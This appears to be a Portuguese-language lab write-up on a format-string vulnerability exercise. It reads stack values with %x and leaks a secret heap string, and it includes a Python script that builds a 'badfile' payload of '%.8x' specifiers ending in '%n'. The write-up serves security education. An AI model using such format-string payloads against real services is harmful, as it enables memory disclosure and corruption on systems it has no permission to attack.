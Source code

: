 O objetivo é imprimir os dados que estão na *stack* e saber o número de *format specifiers* %x que precisamos para que o programa do servidor imprima os primeiros quatro bytes do input.
Podemos colocar alguns números únicos (4 bytes) na *stack*, para sabermos quando são impressos. Este número é essencial para a maioria das tarefas subsequentes.

Usamos o seguinte código python:

```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("%x").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*64 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

```

![](https://i.imgur.com/cnsaYt2.png)

![](https://i.imgur.com/SpyxCqs.png)


### Task 2.B Heap Data

Existe uma mensagem secreta (string) armazenada na *heap area*, e conseguimos encontrar o endereço desta string na impressão do servidor. 
O objetivo é imprimir esta mensagem secreta. Para atingir este objetivo, precisamos de colocar o endereço (no formato binário) da mensagem secreta na *format string*.
A maioria dos computadores são máquinas *small-endian*, portanto, para armazenar um endereço 0xAABBCCDD (quatro bytes numa máquina de 32 bits) na memória, o byte menos significativo 0xDD é armazenado no endereço inferior, enquanto o byte mais significativo 0xAA é armazenado no endereço superior. Portanto, quando armazenamos o endereço num buffer, precisamos guardá-lo por esta ordem: 0xDD, 0xCC, 0xBB e 0xAA. 
